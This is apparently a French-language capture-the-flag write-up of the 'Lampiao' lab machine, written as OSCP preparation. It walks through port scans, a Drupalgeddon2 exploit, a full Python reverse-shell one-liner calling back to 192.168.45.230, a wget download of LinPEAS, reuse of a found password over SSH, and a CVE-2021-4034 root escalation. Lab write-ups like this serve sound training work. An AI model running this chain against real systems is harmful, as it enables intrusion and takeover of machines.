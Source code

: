 # LAMPIAO

    sudo nmap -A -p1-10000 192.168.206.48
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.206.48 --tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.206.48

Scans classiques.

Le serveur web du port 80 amène juste sur un dessin en ASCII mais il semble y avoir un deuxième serveur web sur le port 1898.

    whatweb http://192.168.206.48:1898

On voit que le site utilise Drupal v7, cela se remarque aussi dans le code source. L'un des articles mentionne des fichiers ainsi que des tests, et les fichiers en question se trouvent bien à la racine du site web puisque l'URL http://192.168.206.48:1898/audio.m4a fonctionne bien par exemple.

J'ai donc lancé des scans sur les fichiers à la racine du site web en parallèle de mes recherches sur Drupal :

    feroxbuster -u http://192.168.206.48:1898/ -x log,txt,php,conf,html
    ffuf -u http://192.168.206.48:1898/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt -e .php,.txt,.ini,.conf,.html -fc 404

Je n'ai rien trouvé d'intéressant dans les fichiers obtenus, même dans le **robots.txt** qui était bien rempli, mais j'ai trouvé un exploit très intéressant sur Drupal : https://github.com/dreadlocked/Drupalgeddon2

J'ai vu que l'on pouvait directement obtenir un shell Meterpreter en passant par Metasploit mais j'ai souhaité reproduire l'exploit sans ces deux outils pour mieux me préparer pour l'OSCP.

    ruby Drupal.rb http://192.168.206.48:1898/
    ...
    lampiao>> ls /home
    lampiao>> cat /home/tiago/local.txt

Le shell PHP était assez contraignant, j'ai donc opté pour un reverse-shell en Python classique, récupéré sur le site https://www.revshells.com/

    lampiao>> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.230",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

Et de l'autre côté : 

    rlwrap nc -nvlp 9999

Les vérifications classiques n'ont pas fonctionné, je suis donc passé par LinPEAS : 

    wget http://192.168.45.230/linpeas.sh
    chmod u+x linpeas.sh
    ./linpeas.sh | tee linpeas.txt

Dans la catégorie **"Searching passwords in config PHP files"** on voit les trois lignes suivantes :

> 'password' => 'Virgulino',   
> 'password' => 'password',   
> 'password' => 'password',

J'ai donc tenté de me connecter avec le premier mot de passe sur l'autre utilisateur, cela a fonctionné mais ne m'a pas plus avancé pour l'élévation de privilèges.

    ssh 192.168.206.48 -l tiago
    
J'ai ensuite remarqué le CVE 2021-4034 qui sortait du lot et qui était surligné par LinPEAS. Il suffisait tout simplement de l'appliquer pour passer root. 

Voir : https://github.com/berdav/CVE-2021-4034/blob/main/cve-2021-4034.sh

    ./CVE.sh
    ls /root
    cat /root/proof.txt


